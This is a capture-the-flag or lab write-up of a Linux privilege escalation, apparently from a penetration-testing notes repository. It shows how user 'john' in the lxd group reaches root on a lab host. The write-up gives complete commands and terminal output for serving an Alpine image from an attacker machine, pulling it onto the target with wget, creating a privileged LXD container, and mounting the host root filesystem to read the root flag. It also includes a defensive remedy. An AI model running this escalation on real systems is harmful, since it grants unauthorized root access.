




# 07 — Privilege Escalation (LXD Group Abuse)

## Overview

After confirming shell access as `john`, enumeration of the user's group memberships revealed membership in the `lxd` group. This is a well-known local privilege escalation vector on Linux systems with LXD installed, since `lxd` group members can create and manage containers with root-equivalent host filesystem access.

## Objectives

- Identify privilege escalation vectors available to the `john` account.
- Transfer an Alpine Linux container image to the target for use with LXD/LXC.
- Use LXD container creation to mount the host's root filesystem into a privileged container.
- Access the root filesystem and retrieve the root flag.

## Important Terminology

| Term | Definition |
|---|---|
| LXD / LXC | A Linux container management daemon (`lxd`) and its command-line client (`lxc`) |
| `lxd` group | A Linux group whose members can interact with the LXD daemon; membership is effectively equivalent to root access on the host |
| `security.privileged=true` | An LXC container configuration flag that disables container UID/GID mapping, giving the container's root user the same privileges as the host's root user |
| Bind mount | Mounting a host directory into a container's filesystem, making it accessible from inside the container |

## Concepts Explained

By default, unprivileged users cannot directly manipulate the host filesystem as root. However, if a user is a member of the `lxd` group, they can create a **privileged** LXC container and mount the host's root filesystem (`/`) into it. Because the container is privileged, the container's root user maps directly to the host's root user — meaning any file accessible from inside the container's mounted host root is accessible with full root permissions, even though the operation is initiated from an unprivileged host account.

## Commands and Syntax

### Step 1 — Confirm group membership

```bash
id
```

### Step 2 — Stage an Alpine Linux container image (attacker side)

```bash
sudo python3 -m http.server 8000
```

### Step 3 — Identify a routable attacker IP (attacker side)

```bash
ip a
ping 192.168.178.85
```

### Step 4 — Download the image to the target (target side)

```bash
wget http://192.168.178.85:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

### Step 5 — Import and launch a privileged LXC container (target side)

```bash
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

### Step 6 — Access the mounted host root filesystem

```bash
cd /mnt/root/root
cat root.txt
```

## Command Breakdown

| Command | Purpose |
|---|---|
| `id` | Lists the current user's UID, GID, and all group memberships |
| `python3 -m http.server 8000` | Quickly serves files from the attacker machine over HTTP for retrieval by the target |
| `ip a` | Lists network interfaces and assigned addresses on the attacker machine, used to find a reachable IP for the target to pull files from |
| `wget <url>` | Downloads a file from the attacker's HTTP server onto the target |
| `lxc image import <file> --alias <name>` | Imports a container image archive into LXD's local image store under a given alias |
| `lxc init <image> <name> -c security.privileged=true` | Creates a new container from the given image, explicitly marking it as privileged |
| `lxc config device add <container> <device> disk source=/ path=/mnt/root recursive=true` | Adds a disk device to the container that bind-mounts the host's `/` filesystem at `/mnt/root` inside the container |
| `lxc start <container>` | Starts the container |
| `lxc exec <container> /bin/sh` | Opens an interactive shell inside the running container |

## Examples

**Confirming `lxd` group membership on the target:**

```text
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

**Serving the Alpine image from the attacker (Kali) machine:**

```text
$ ls
airgeddon  BurpSuite  Desktop  Documents  Downloads  hash.txt  hydra.restore  LinEnum  linpeas.sh  Music  ...
$ sudo python3 -m http.server 8000
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

**Identifying attacker-side routable interfaces:**

```text
$ ip a
...
4: tun0: <POINTOPOINT,NOARP,UP,LOWER_UP> mtu 1380 qdisc noqueue state UP group default qlen 1000
    inet 192.168.178.85/18 brd 192.168.191.255 scope global tun0
...
5: tun1: <POINTOPOINT,NOARP,UP,LOWER_UP> mtu 1380 qdisc noqueue state UP group default qlen 1000
    inet 192.168.178.85/18 brd 192.168.191.255 scope global tun1
...
$ ping 192.168.178.85
PING 192.168.178.85 (192.168.178.85) 56(84) bytes of data.
64 bytes from 192.168.178.85: icmp_seq=1 ttl=64 time=0.943 ms
64 bytes from 192.168.178.85: icmp_seq=2 ttl=64 time=0.058 ms
64 bytes from 192.168.178.85: icmp_seq=3 ttl=64 time=0.055 ms
64 bytes from 192.168.178.85: icmp_seq=4 ttl=64 time=0.046 ms
--- 192.168.178.85 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3029ms
rtt min/avg/max/mdev = 0.046/0.275/0.943/0.385 ms
```

**Downloading the image on the target (note: the first attempt used the target's own previous session IP, which failed — the correct routable tunnel IP had to be used instead):**

```text
john@exploitable:~$ wget http://10.130.138.103:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.130.138.103:8000... failed: Connection refused.
john@exploitable:~$ wget http://192.168.178.85:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 192.168.178.85:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: 'alpine-v3.13-x86_64-20210218_0139.tar.gz'
alpine-v3.13-x86_64-20210218_0139.tar.gz          100%[==================================================>]   3.11M   519KB/s   in 7.0s
2026-09-02 23:57:05 (457 KB/s) - 'alpine-v3.13-x86_64-20210218_0139.tar.gz' saved [3259593/3259593]
```

**Creating and entering the privileged container, then reading the root flag:**

```text
john@exploitable:~$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
john@exploitable:~$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
john@exploitable:~$ lxc start ignite
john@exploitable:~$ lxc exec ignite /bin/sh
~ # whoami
root
~ # cd /mnt/root/
/mnt/root # cd root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```

### Rationale

Once `id` confirmed `john` was a member of the `lxd` group, this became the clear, direct path to root — no additional kernel exploits or misconfigurations needed to be found, since `lxd` group membership alone is sufficient for this style of container-based escalation.

## Screenshots









## Observations

- `john`'s group list included `sudo` **and** `lxd` — either could theoretically be a path forward, but `lxd` group membership requires no password and was the vector actually used here.
- The target's own public-facing IP (`10.130.138.103`) was **not** reachable for the outbound `wget`, but the attacker's VPN tunnel interface IP (`192.168.178.85`, seen on `tun0`/`tun1`) was reachable — indicating the target could route back to the attacker over a lab VPN network segment, even though the reverse path (attacker to target's HTTP port) was not.
- The privileged container mounted the entire host root filesystem at `/mnt/root` inside the container, and because the container was privileged, files under `/mnt/root/root/` (i.e., the host's `/root/`) were readable — including `root.txt`.
- `whoami` inside the container returned `root`, and since the container is privileged, this is equivalent to root on the underlying host.

## Common Mistakes

- Assuming the target's own listed IP address is always the correct one to use for a reverse file transfer — in a multi-homed or VPN-routed lab environment, the reachable IP may differ from the target's "primary" address.
- Forgetting `-c security.privileged=true` when initializing the container — without it, UID/GID mapping would prevent the container's root from having true host-root-equivalent access to the mounted filesystem.
- Not confirming `lxd` group membership before assuming a lengthier privilege escalation path (kernel exploits, SUID binaries, etc.) is necessary.

## Notes

The container name `ignite` and device name `mydevice` were arbitrary choices made during the session; any valid identifiers would work equivalently.

## Additional Context

> [!NOTE]
> Supplementary background, not directly observed in this lab.

This technique is documented publicly (e.g., in GTFOBins-style privilege escalation references) as one of the most common LXD/LXC privilege escalation methods on Linux systems where a low-privileged user has been added to the `lxd` group — often unintentionally, for legitimate container-management purposes, without realizing the security implications. Defensively, the fix is to avoid adding untrusted or standard user accounts to the `lxd` group, since group membership alone (no `sudo` required) is sufficient to gain root.

## References

- [`cheatsheets/privilege-escalation.md`](../../cheatsheets/privilege-escalation.md)

## Key Takeaways

- `lxd` group membership is effectively equivalent to root access on a Linux host with LXD installed — no additional vulnerability or misconfiguration is required.
- The escalation required only: confirming group membership (`id`), staging a container image via a simple HTTP server, and four `lxc` commands to mount and access the host filesystem as root.
- File transfer direction/reachability should always be double-checked in routed/VPN lab environments — the "obvious" IP is not always the reachable one.
